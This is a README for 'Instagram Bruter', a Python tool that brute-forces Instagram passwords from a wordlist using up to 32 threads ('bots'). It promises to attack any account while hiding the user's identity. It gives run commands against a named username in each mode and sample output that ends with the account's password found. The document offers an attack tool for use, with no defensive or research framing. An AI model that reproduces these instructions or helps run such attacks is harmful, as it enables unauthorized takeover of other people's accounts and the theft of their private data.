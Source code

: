 # Instagram Bruter

[![Version](https://img.shields.io/badge/version-v2.1.1-blue.svg)]()
[![Python](https://img.shields.io/badge/python-v3-blue.svg)]()
[![Instagram](https://img.shields.io/badge/chat-Instagram-blue.svg)](https://www.instagram.com/wajahatahmadshamsi/)
<br>

This program will brute force any Instagram account you send it its way. Just give it a target, a password list and a mode then press enter and forget about it. No need to worry about anonymity when using this program, its highest priority is your anonymity, it only attacks when your identity is hidden.

### Requirements

-   Python _v3.x.x_
-   ~~Kali Linux 2.0~~
-   ~~TOR~~

### Install Dependencies

```
python3 install.py
```

### Help

```
C:\Users\Wajahat\Desktop\Instagram>python3 instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

### Usage

```
python3 instagram.py <username> <wordlist> -m <mode>
```

### Bots(Threads)

-   4 bots: 64 passwords at a time
-   8 bots: 128 passwords at a time
-   16 bots: 256 passwords at a time
-   32 bots: 512 passwords at a time

### Modes

-   0: 32 bots
-   1: 16 bots
-   2: 8 bots
-   3: 4 bots

### Chill mode

This mode uses only 4 bots, or 64 passwords at a time.

```
C:\Users\Wajahat\Desktop\Instagram>python3 instagram.py ainakhan667 Commonpass.txt -m 3
```

### Moderate mode 1

This mode uses 8 bots, or 128 passwords at a time.

```
C:\Users\Wajahat\Desktop\Instagram>python3 instagram.py ainakhan667 Commonpass.txt -m 2
```

### Moderate mode 2

This mode uses 16 bots, or 256 passwords at a time.

```
C:\Users\Wajahat\Desktop\Instagram>python3 instagram.py ainakhan667 Commonpass.txt -m 1
```

### Savage mode

This mode uses 32 bots, or 512 passwords at a time.

```
C:\Users\Wajahat\Desktop\Instagram>python3 instagram.py ainakhan667 Commonpass.txt -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run

```
[-] Wordlist: Commonpass.txt
[-] Username: ainakhan667
[-] Password: football
[-] Complete: 45.51%
[-] Attempts: 100
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: Commonpass.txt
[-] Username: ainakhan667
[-] Password: hackme
[-] Complete: 62.67%
[-] Attempts: 120
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: ainakhan667
[+] Password: hackme
```
